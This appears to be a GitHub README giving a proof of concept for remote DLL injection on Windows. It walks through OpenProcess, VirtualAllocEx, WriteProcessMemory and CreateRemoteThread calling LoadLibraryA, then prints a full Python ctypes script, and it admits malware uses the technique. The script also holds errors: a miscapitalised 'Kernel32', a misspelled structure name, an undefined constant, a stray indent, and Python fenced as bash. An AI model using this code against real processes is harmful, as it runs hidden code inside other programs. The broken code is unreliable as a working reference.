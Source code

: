 # Remote DLL Injection
## Overview
This POC demonstrates a technique known as remote DLL injection. The goal is to force a target process (for example, Notepad) to load an external DLL (Dynamic Link Library). The process involves three main steps:

  1. Allocating Memory in the Remote Process: Reserve a block of memory in the target process’s address space.
  2. Writing the DLL Path: Write the path (as a byte string) of the DLL into the allocated memory.
  3. Forcing the DLL to Load: Use the Windows API function LoadLibraryA—located via GetProcAddress on kernel32.dll—by creating a remote thread that calls it, passing the address of the DLL path in memory.

This technique is commonly used for injecting code into a process for either legitimate purposes (such as extending the functionality of a running application) or by malware for nefarious reasons.

## Detailed Code Walkthrough

1. Importing Modules and Defining API Functions
    1. ctypes and wintypes:
       The code imports the ctypes module and its wintypes submodule. This allows the script to interact directly with Windows API functions. The API calls are performed by calling functions in kernel32.dll, a core Windows DLL.

    2. Function Prototypes:
       The POC defines the argument types (argtypes) and return types (restype) for the following functions:
         1. OpenProcess: Opens an existing process given its process ID (PID) with specific access rights.
         2. VirtualAllocEx: Allocates a block of memory within the address space of the target process.
         3. WriteProcessMemory: Writes data (the DLL path) into the allocated memory in the remote process.
         4. GetModuleHandleA: Retrieves a handle to a loaded module (here, kernel32.dll).
         5. GetProcAddress: Finds the address of an exported function (in this case, LoadLibraryA) within a module.
         6. CreateRemoteThread: Creates a new thread in the remote process that will call the specified function—in our case, to load the DLL.

    3. Defining Structures:
       The code also defines the _SECURITY_ATTRIBUTES structure. Although this structure isn’t used in every detail, it is necessary when creating a remote thread to specify attributes like whether handles are inherited by child processes.

2. Preparing the Injection Payload
   1. DLL Path String:
   A byte string variable named dll holds the path to the compiled DLL file that you intend to inject. This must be a valid
   path that the target process can access.

   2. Process Identification:
   The variable pid is set to the target process’s ID (for example, Notepad’s PID). This value is used to open the process and
   manipulate its memory.

3. Opening the Target Process
   1. Using OpenProcess:
   The OpenProcess function is called with the PROCESS_ALL_ACCESS flag, which grants the maximum level of access required for
   injection.
   If OpenProcess fails (returns a NULL handle), an error is raised. Successful retrieval of a valid handle is critical for subsequent operations.
###
   ```bash
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
if not handle:
    raise WinError()
print("Handle obtained ⇒", hex(handle))
   ```
4. Allocating Memory in the Remote Process
   1. VirtualAllocEx Call:
   VirtualAllocEx is used to reserve a block of memory in the target process’s address space.
   The size of the memory allocated is determined by the length of the DLL path string. The allocation is done using the
   flags MEM_COMMIT | MEM_RESERVE, and the memory is initially marked as PAGE_READWRITE so that it can be modified.
###
   ```bash
remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
if not remote_memory:
    raise WinError()
print("Memory allocated ⇒", hex(remote_memory))
   ```
5. Writing the DLL Path into Remote Memory
   1. WriteProcessMemory Call:
   Once memory is allocated, the DLL path is written into the remote process using WriteProcessMemory.
   This step places the path (as a string) into the process’s memory space so that it can later be used by the LoadLibraryA
   function.
###
   ```bash
write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)
if not write:
    raise WinError()
print("Bytes written ⇒", dll)
   ```
6. Locating the LoadLibraryA Function
   1. Retrieving the Address of LoadLibraryA:
   The function GetModuleHandleA is used to get a handle for kernel32.dll—a critical module that contains the LoadLibraryA
   function.
   Then, GetProcAddress retrieves the address of LoadLibraryA within that module.
   This address will be the entry point for loading the DLL into the remote process.
###
   ```bash
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
print("LoadLibrary address ⇒", hex(load_lib))
   ```
7. Creating a Remote Thread to Load the DLL
   1. Executing the DLL Injection:
   With the address of LoadLibraryA and the memory location holding the DLL path, CreateRemoteThread is invoked.
   This function creates a new thread in the target process that begins execution at the LoadLibraryA function, with the
   argument being the address of the DLL path in remote memory.
   When the thread runs, LoadLibraryA loads the DLL, thus completing the injection.
###
   ```bash
rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```

## Code ~ Remote DLL Injection
###
   ```bash
from ctypes import *
from ctypes import wintypes

kernel32 = windll.kernel32
LPCTSTR = c_char_p
SIZE_T = c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (wintypes.DWORD, wintypes.BOOL, wintypes.DWORD)
OpenProcess.restype = wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = Kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (wintypes.HANDLE, LPCTSTR)
GetProcAddress.restypes = wintypes.LPVOID

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
			('lpSecurityDescriptor', wintypes.LPVOID),
			('bInheritHandle', wintypes.BOOL),]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECUIRTY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

dll = b"<path to the compiled dll file>"

pid = 2160 #process id of a process such as Notepad

handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

if not handle:
	raise WinError()
	
print("Handle obtained => {0:X}".format(handle))

remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READ)

	if not remote_memory:
		raise WinError()

print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)

if not write:
	raise WinError()

print("Bytes written => {}".format(dll))

load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")

print("LoadLibrary address => ", hex(load_lib))

rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```
